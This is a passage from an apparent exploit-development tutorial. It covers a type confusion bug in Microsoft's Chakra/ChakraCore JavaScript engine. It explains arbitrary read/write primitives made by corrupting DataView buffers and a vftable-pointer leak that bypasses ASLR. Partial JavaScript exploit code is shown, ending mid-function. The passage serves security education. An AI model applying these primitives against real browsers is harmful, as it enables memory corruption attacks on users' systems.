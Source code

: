 We can see we added a few things above. The first is our `hex()` function, which really is just for "pretty printing" purposes. It allows us to convert a value to hex, which is obviously how user-mode addresses are represented in Windows.

Secondly, we can see our `read64()` function. This is practically dentical to what we displayed with the arbitrary write primitive. We use `dataview1` to corrupt the `buffer` of `dataview2` with the address we want to read from. However, instead of using `dataview2.setUint32()` to overwrite our target address, we use the `getUint32()` method to retrieve `0x8` bytes from our target address.

Lastly, `write64()` is _identical_ to what we displayed in the code before the code above, where we walked through the process of performing an arbitrary write. We have simply "templatized" the read/write process to make our exploitation much more efficient.

With a read/write primitive, the next step for us will be bypassing ASLR so we can reliably read/write data in memory.

Bypassing ASLR - Chakra/ChakraCore Edition
---
When it comes to bypassing ASLR, in "modern" exploitation, this requires an information leak. The 64-bit address space is too dense to "brute force", so we must find another approach. Thankfully, for us, the way Chakra/ChakraCore lays out JavaScript objects in memory will allow us to use our type confusion vulnerability and read primitive to leak a `chakracore.dll` address quite easily. Let's recall the layout of a dynamic object in memory.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion61.png" alt="">

As we can see above, and as we can recall, the first hidden property of a dynamic object is the `vftable`. This will always point somewhere into `chakracore.dll`, and `chakra.dll` within Edge. Because of this, we can simply use our arbitrary read primitive to set our target address we want to read from to the `vftable` pointer of the `dataview2` object, for instance, and read what this address contains (which is a pointer in `chakracore.dll`)! This concept is very simple, but we actually can more easily perform it by _not_ using `read64()`. Here is the corresponding code.

```javascript
// Creating object obj
// Properties are stored via auxSlots since properties weren't declared inline
obj = {}
obj.a = 1;
obj.b = 2;
obj.c = 3;
obj.d = 4;
obj.e = 5;
obj.f = 6;
obj.g = 7;
obj.h = 8;
obj.i = 9;
obj.j = 10;

// Create two DataView objects
dataview1 = new DataView(new ArrayBuffer(0x100));
dataview2 = new DataView(new ArrayBuffer(0x100));

// Function to convert to hex for memory addresses
function hex(x) {
    return x.toString(16);
}

// Arbitrary read function
function read64(lo, hi) {
	dataview1.setUint32(0x38, lo, true); 		// DataView+0x38 = dataview2->buffer
	dataview1.setUint32(0x3C, hi, true);		// We set this to the memory address we want to read from (4 bytes at a time: e.g. 0x38 and 0x3C)

	// Instead of returning a 64-bit value here, we will create a 32-bit typed array and return the entire away
```